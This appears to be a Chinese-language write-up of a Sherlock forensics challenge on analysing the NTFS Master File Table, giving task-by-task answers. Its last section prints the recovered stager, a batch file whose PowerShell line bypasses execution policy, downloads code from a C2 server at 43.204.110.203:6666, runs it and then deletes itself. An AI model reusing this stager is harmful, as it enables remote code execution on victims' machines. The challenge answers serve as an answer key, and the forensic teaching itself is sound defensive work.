

## Sherlock Scenario

在这个 Sherlock 中，您将熟悉 **MFT（主文件表）**取证。您将了解用于分析 MFT 工件以识别恶意活动的知名工具和方法。在我们的分析过程中，您将使用 **MFTECmd** 工具解析提供的 MFT 文件，使用 **TimeLine Explorer** 打开并分析解析的 MFT 的结果，并使用十六进制编辑器从 MFT 中恢复文件内容。

## Preparing

将**MFT**文件转为**CSV**文件需要用到下面这个工具

我是在Windows环境下使用的，需要将`CMD`右键设置为`管理员`使用


使用下面这个工具来进行阅读`CSV`文件

- [Timeline Explorer | SANS Institute](https://www.sans.org/tools/timeline-explorer/)

## Task1

Simon Stark 于 2 月 13 日成为攻击者的目标。他从电子邮件中收到的链接下载了一个 ZIP 文件。他从链接下载的 ZIP 文件的名称是什么？


查询文件名中包含`.zip`，然后包含`http`字样的行，发现一个压缩包文件

`Stage-20240213T093324Z-001.zip`

## Task2

检查最初下载的 ZIP 文件的 Zone Identifier 内容。此字段显示下载文件的 HostUrl，在我们的调查/分析中用作有价值的入侵指标 （IOC）。下载此 ZIP 文件的完整主机 URL 是什么？

对应的完整URL是

```
https://storage.googleapis.com/drive-bulk-export-anonymous/20240213T093324.039Z/4133399871716478688/a40aecd0-1cf3-4f88-b55a-e188d5c1c04f/1/c277a8b4-afa9-4d34-b8ca-e1eb5e5f983c?authuser
```


## Task3

执行恶意代码并连接到 C2 服务器的恶意文件的完整路径和名称是什么？

尝试搜索压缩包解压后的路径

发现一个可疑的`bat`文件


恶意文件的完整路径

```
C:\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoices\invoice.bat
```

## Task4

分析之前标识的文件的 $Created 0x30 时间戳。这个文件是什么时候在磁盘上创建的？

查找`invoice.bat`的创建时间：`2024-02-13 16:38:39`


## Task5

在许多调查场景中，查找 MFT 记录的十六进制偏移量是有益的。从问题 3 中找到 stager 文件的十六进制偏移量。

查询文件的`Entry Number`为**23436**

将其乘以**1024**（这是每一条记录的大小）然后转为**十六进制**


偏移量为：`16E3000`

## Task6

每个 MFT 记录的大小为 1024 字节。如果磁盘上的文件大小小于 1024 字节，则可以直接存储在 MFT 文件本身上。这些文件称为 MFT 驻留文件。在 Windows 文件系统调查期间，查找可能驻留在 MFT 中的任何恶意/可疑文件至关重要。这样我们就可以找到恶意文件/脚本的内容。找到问题 3 中发现的恶意暂存程序的内容，并使用 C2 IP 和端口回答。

因为我们已经有了`偏移量`，因此可以使用任意十六进制编辑器打开`$MFT`文件，我这里使用的是`HxD`

跳转到偏移量的位置往下一点，能发现驻留在文件中的恶意代码内容



大致内容如下，直接复制过来有一些空字符会看不见

```
@echo off
start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGF�W9uIGV0dw==') -UseBasicParsing|iex"
(goto) 2>nul & del "%~f0"
=
```
